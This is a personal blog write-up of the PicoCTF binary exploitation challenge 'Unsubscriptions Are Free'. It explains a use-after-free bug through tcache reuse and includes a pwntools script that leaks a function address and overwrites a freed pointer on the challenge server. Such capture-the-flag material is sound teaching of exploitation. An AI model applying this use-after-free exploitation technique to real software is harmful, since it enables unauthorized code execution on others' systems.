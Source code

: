 << [Back to Home](https://papadoxie.github.io)

# Unsubscriptions Are Free
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="./ChallengeDescription.png"
		alt="Challenge Description"
/>

## Setup

2 files are provided to us for the challenge and the address
to the server is also provided.

Let's download the files and take a look at the source

## Analysis

Immediately we see a function that prints the flag  

<img	src="./Analysis0.png"
		alt="Challenge Description"
/>

Upon further analysis we can see that this function is not being called anywhere but there is another suspicious function

<img	src="./Analysis1.png"
		alt="Challenge Description"
/>

Running the binary we can see this prints out the address of the function that will print the flag

<img	src="./Analysis2.png"
		alt="Challenge Description"
/>

Let's explore further to see how we can use this information  
  
The main function is pretty straightforward as well as the printMenu function

<img	src="./Analysis3.png"
		alt="Challenge Description"
/>

<img	src="./Analysis4.png"
		alt="Challenge Description"
/>

The processInput function handles the processing of all the user input

<img	src="./Analysis5.png"
		alt="Challenge Description"
/>

doProcess just calls the function pointed to by the function pointer passed to it

<img	src="./Analysis6.png"
		alt="Challenge Description"
/>

Now let's take a look at the remaining functions

<img	src="./Analysis7.png"
		alt="Challenge Description"
/>

There is a pointer being freed here and this function can be called multiple times  
This seems like a bug. Let's test it

<img	src="./Analysis8.png"
		alt="Challenge Description"
/>

This looks like a Use After Free bug. Let's try to find out if we can write to this allocation somehow

<img	src="./Analysis9.png"
		alt="Challenge Description"
/>

Here we have it. A function that allocates an 8 byte buffer and lets us write to it  
Now what will happen is
- We will free the "user" buffer
- It will go into the tcache
- We will allocate a buffer
- This allocation will come from the tcache and it'll point to the same place "user" was pointing to
- We will write the address of the "hahaexploitgobrr" function to this buffer
- We will free the "user" buffer again to call the function

Let's try this out

## Exploitation

Here's the exploit script

```py
#!/usr/bin/python3

from pwn import log, process, remote, time
import pwnlib.util.packing as pack

p = remote("mercury.picoctf.net", 48259)

p.sendline(b"S") # Get the memory leak

for i in range(9):
    try:
        inp = str(p.recvline()[21:].strip())[2:].strip("'") # Get the address from the leak
    except:
        log.info("")


inp = int(inp, 16) # Convert it to hex
log.info(f"{hex(inp)}")

p.sendline(b"I")    # Free user
p.sendline(b"Y")

p.sendline(b"L")    # Allocate the new buffer and write the address to it
time.sleep(1)
p.sendline(pack.p64(inp))

p.sendline(b"I")    # Free user again
p.sendline(b"Y")

p.interactive()
```

<img	src="./Exploitation0.png"
		alt="Challenge Description"
/>

It worked! We got the flag